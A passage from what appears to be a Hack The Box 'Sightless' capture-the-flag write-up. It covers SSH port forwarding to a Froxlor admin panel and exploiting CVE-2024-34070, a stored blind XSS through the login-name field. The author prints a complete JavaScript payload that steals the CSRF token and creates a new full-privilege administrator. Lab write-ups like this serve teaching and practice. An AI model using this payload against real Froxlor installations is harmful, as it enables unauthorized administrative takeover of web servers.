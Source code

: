 ### Froxlor

Let's setup a port forward, edit our `/etc/hosts` and check out what's running on port 8080.

```
┌──(pl4stic㉿kali)-[~/htb/sightless]
└─$ ssh -L 8080:localhost:8080  michael@sightless.htb    
michael@sightless.htb's password: 
Last login: Tue Feb 11 04:05:46 2025 from 10.10.14.42
michael@sightless:~$
```

Add `127.0.0.1   admin.sightless.htb` to our `/etc/hosts`

![sightless3](/images/sightless3.png)

#### Exploit (CVE-2024-34070)

After a lot of Google searching, I came across CVE-2024-34070.

>A Stored Blind Cross-Site Scripting (XSS) vulnerability has been identified in the Failed Login Attempts Logging Feature of the Froxlor Application. Stored Blind XSS occurs when user input is not properly sanitized and is stored on the server, allowing an attacker to inject malicious scripts that will be executed when other users access the affected page. In this case, an unauthenticated User can inject malicious scripts in the loginname parameter on the Login attempt, which will then be executed when viewed by the Administrator in the System Logs.

I found an example payload for this CVE [here](https://github.com/advisories/GHSA-x525-54hf-xr53). The payload essentially creates a new admin user. This payload has been URL decoded and formatted; when you send the payload, remember to remove formatting and URL encode.

```js
admin{{$emit.constructor`
	function b(){
		var metaTag=document.querySelector('meta[name="csrf-token"]');
		var csrfToken=metaTag.getAttribute('content');
		var xhr=new XMLHttpRequest();
		var url="https://admin.sightless.htb/admin_admins.php";
		var params="new_loginname=pl4stic&admin_password=pl4stic&admin_password_suggestion=mgphdKecOu&def_language=en&api_allowed=0&api_allowed=1&name=pl4stic&email=pl4stic@hacked.you&custom_notes=&custom_notes_show=0&ipaddress=-1&change_serversettings=0&change_serversettings=1&customers=0&customers_ul=1&customers_see_all=0&customers_see_all=1&domains=0&domains_ul=1&caneditphpsettings=0&caneditphpsettings=1&diskspace=0&diskspace_ul=1&traffic=0&traffic_ul=1&subdomains=0&subdomains_ul=1&emails=0&emails_ul=1&email_accounts=0&email_accounts_ul=1&email_forwarders=0&email_forwarders_ul=1&ftps=0&ftps_ul=1&mysqls=0&mysqls_ul=1&csrf_token="+csrfToken+"&page=admins&action=add&send=send";
		xhr.open("POST",url,true);
		xhr.setRequestHeader("Content-type","application/x-www-form-urlencoded");
		xhr.send(params)};a=b()`()
	}
}
```

It worked, we've got access to the administration portal.

![sightless4](/images/sightless4.png)
